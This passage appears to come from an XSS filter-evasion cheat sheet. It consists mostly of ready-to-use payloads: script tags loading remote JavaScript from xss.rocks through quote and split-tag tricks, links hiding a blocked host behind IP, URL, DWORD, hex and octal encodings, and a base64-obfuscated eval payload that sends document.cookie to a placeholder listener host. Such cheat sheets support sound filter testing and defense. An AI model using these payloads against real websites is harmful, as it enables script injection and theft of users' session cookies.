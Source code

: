    <SCRIPT a=`>` SRC="httx://xss.rocks/xss.js"></SCRIPT>

Here's an XSS example that bets on the fact that the regex won't catch a matching pair of quotes but will rather find any quotes to terminate a parameter string improperly:

    <SCRIPT a=">'>" SRC="httx://xss.rocks/xss.js"></SCRIPT>

This XSS still worries me, as it would be nearly impossible to stop this without blocking all active content:

    <SCRIPT>document.write("<SCRI");</SCRIPT>PT SRC="httx://xss.rocks/xss.js"></SCRIPT>

## URL string evasion

Assuming `http://www.google.com/` is programmatically disallowed:

### IP versus hostname

    <A HREF="http://66.102.7.147/">XSS</A>

### URL encoding

    <A HREF="http://%77%77%77%2E%67%6F%6F%67%6C%65%2E%63%6F%6D">XSS</A>

### DWORD encoding

Note: there are other of variations of Dword encoding - see the IP Obfuscation calculator below for more details:

    <A HREF="http://1113982867/">XSS</A>

### Hex encoding

The total size of each number allowed is somewhere in the neighborhood of 240 total characters as you can see on the second digit, and since the hex number is between 0 and F the leading zero on the third hex quotet is not required):

    <A HREF="http://0x42.0x0000066.0x7.0x93/">XSS</A>

### Octal encoding

Again padding is allowed, although you must keep it above 4 total characters per class - as in class A, class B, etc...:

    <A HREF="http://0102.0146.0007.00000223/">XSS</A>

### Base64 encoding

    <img onload="eval(atob('ZG9jdW1lbnQubG9jYXRpb249Imh0dHA6Ly9saXN0ZXJuSVAvIitkb2N1bWVudC5jb29raWU='))">

### Mixed encoding

Let's mix and match base encoding and throw in some tabs and newlines - why browsers allow this, I'll never know). The tabs and newlines only work if this is encapsulated with quotes:
